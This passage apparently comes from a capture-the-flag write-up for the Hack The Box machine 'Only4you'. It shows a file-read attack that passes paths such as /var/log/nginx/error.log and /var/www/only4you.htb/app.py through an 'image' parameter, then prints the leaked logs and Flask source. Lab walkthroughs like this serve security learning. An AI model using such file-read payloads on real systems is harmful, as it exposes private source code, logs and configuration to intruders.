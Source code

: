 ### Nginx error logs

We see the location of the error.log, we can send a request to read that file to gather more information.

```bash
image=/var/log/nginx/error.log
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)

2023/04/24 01:00:28 [error] 1036#1036: *484 upstream prematurely closed connection while reading response header from upstream, client: 10.10.14.66, server: only4you.htb, request: "POST / HTTP/1.1", upstream: "http://unix:/var/www/only4you.htb/only4you.sock:/", host: "only4you.htb", referrer: "http://only4you.htb/"
2023/04/24 01:00:58 [error] 1036#1036: *488 upstream prematurely closed connection while reading response header from upstream, client: 10.10.14.228, server: only4you.htb, request: "POST / HTTP/1.1", upstream: "http://unix:/var/www/only4you.htb/only4you.sock:/", host: "only4you.htb"
2023/04/24 01:25:20 [error] 1036#1036: *492 upstream prematurely closed connection while reading response header from upstream, client: 10.10.14.228, server: only4you.htb, request: "POST / HTTP/1.1", upstream: "http://unix:/var/www/only4you.htb/only4you.sock:/", host: "only4you.htb"
2023/04/24 01:30:04 [error] 1036#1036: *494 upstream prematurely closed connection while reading response header from upstream, client: 10.10.14.228, server: only4you.htb, request: "POST / HTTP/1.1", upstream: "http://unix:/var/www/only4you.htb/only4you.sock:/", host: "only4you.htb"
```

### Only4you installation directory
We have found the installation directory of the main website, we can now fuzz to get the source code and to look for a vulnerability we can leverage.

```bash
image=/var/www/only4you.htb/app.py
```

When looking at the source code, we can see the contact form uses `form.sendmessage()`.

```python
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)

from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
```